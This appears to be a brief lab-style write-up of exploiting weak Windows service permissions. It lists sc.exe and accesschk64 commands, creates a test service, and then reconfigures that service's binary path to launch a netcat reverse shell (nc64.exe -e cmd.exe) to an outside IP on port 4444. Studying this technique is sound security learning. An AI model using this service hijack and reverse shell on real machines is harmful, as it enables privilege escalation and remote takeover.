





# Methdology
1. exploit Weak Permission on Service Configuration
- we can view the configuration of a service with the `sc.exe` 
```powershell
   sc.exe qc <services_name>
```

- To know if we have permission on the spcific service we can use
 Use the `accesschk64` program to check if we have privileges over that process.
install it > [accesschk64](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

```powershell
   .\accesschk64 /accepteula -uwcqv <services_name>
```


ok you see the administarator and system accounts can modify of this services
so I run cmd as administator and try to change path of service



Then I create simple serives to test Exploit techiques
```powershell

  sc.exe create testService binPath= "C:\Users\test\Desktop" start= auto
```



Try to change the Binary_path to 
```powershell
   sc.exe config testService binpath="C:\Users\test\Desktop\nc64.exe 192.168.x.x 4444 -e C:\Windows\system32\cmd.exe"
```


comfirm the modify success


